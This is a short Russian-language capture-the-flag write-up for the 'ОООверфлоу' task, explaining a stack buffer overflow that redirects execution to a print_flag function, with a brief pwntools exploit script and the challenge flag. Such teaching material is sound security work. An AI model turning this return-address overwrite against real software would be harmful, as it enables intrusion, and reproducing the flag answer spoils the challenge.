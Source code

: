 # ОООверфлоу: Write-up

Поэксперементировав с данным исполняемым файлом, нужно было понять, что он не защищён от переполнения, однако просто переполнение кроме Segmentation fault'а ничего нам не даёт. 

Тогда, сдизассемблив файл, можно было найти интересную функцию под названием `print_flag`, а также её адрес — `0x401196`.

В этом таске был отключён ASLR, а бинарный файл компилился с флагом `-no-pie`, поэтому адреса функций не менялись с каждым запуском файла.

Теперь нам необходимо с помощью переполнения перезаписать адрес возврата из функции `main`, хранящийся на стеке, адресом функции `print_flag`, подобрав необходимый оффсет «мусорных» данных в переполнении или посмотрев размер данных функции на стеке в декомпиляторе.

В итоге флаг получался следующим скриптом:

```python
from pwn import remote, p64

r = remote('ugractf.ru', 5002)
r.recvuntil(b'name?\n')
r.sendline('a' * 72 + p64(0x401196))
r.sendline('')
print(r.recvall())
```

Флаг: **ugra_pointer_tourist**
